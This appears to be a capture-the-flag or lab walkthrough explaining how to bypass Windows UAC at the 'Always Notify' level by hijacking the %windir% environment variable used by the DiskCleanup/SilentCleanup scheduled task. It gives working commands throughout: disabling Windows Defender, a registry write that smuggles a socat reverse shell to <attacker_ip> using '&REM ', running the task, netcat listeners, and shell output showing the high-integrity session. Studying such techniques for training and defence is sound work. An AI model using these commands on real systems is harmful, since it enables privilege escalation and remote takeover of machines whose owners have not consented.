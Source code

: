 # Bypassing Always Notify

On default Windows configurations, applications related to the system's configuration to bypass `UAC` can be used  
as most of these apps have the autoElevate flag set on their manifests. But if `UAC` is configured on the "Always Notify" 
level, `fodhelper` and similar apps won't be of any use as they will require the user to go through the `UAC` prompt to 
elevate. This prevents several known bypass methods. 

Scheduled tasks are an exciting target. By design, they are meant to be run without any user interaction (independent 
of the `UAC` security level), so asking the user to elevate a process manually is not an option. Any scheduled tasks 
that require elevation will automatically get it without going through a `UAC` prompt.

The Disk Cleanup Scheduled Task is configured to run with the Users account, which means it will inherit the 
privileges from the calling user. The Run with highest privileges option will use the highest privilege security 
token available to the calling user, which is a high IL token for an administrator. If a regular non-admin user 
invokes this task, it will execute with medium IL only since that is the highest privilege token available to 
non-admins, and a bypass would not work.

But ... the task can be run on-demand, executing the following command when invoked:

    %windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%

The command depends on environment variables, and it may be possible to inject commands through them and get them 
executed by starting the DiskCleanup task manually.

The `%windir%` variable can be overridden through the registry by creating an entry in `HKCU\Environment`. To execute 
a reverse shell using socat:

    cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM 

`&REM ` (ending with a blank space) is concatenated at the end to comment whatever is put after `%windir%` when 
expanding the environment variable to get the final command used by DiskCleanup.

## Lab

1. Disable Windows Defender
2. set up a listener for a reverse shell with nc:

```text
nc -lvp 4446
```

3. Connect to the backdoor provided on port 9999:

```text
nc MACHINE_IP 9999
```

4. Write the payload to `%windir%` and then execute the DiskCleanup task:

```text
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

5. In the shell with high IL, get the flag:

```text
$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

C:\flags\GetFlag-diskcleanup.exe
```

6. Clean up

```text
reg delete "HKCU\Environment" /v "windir" /f
```
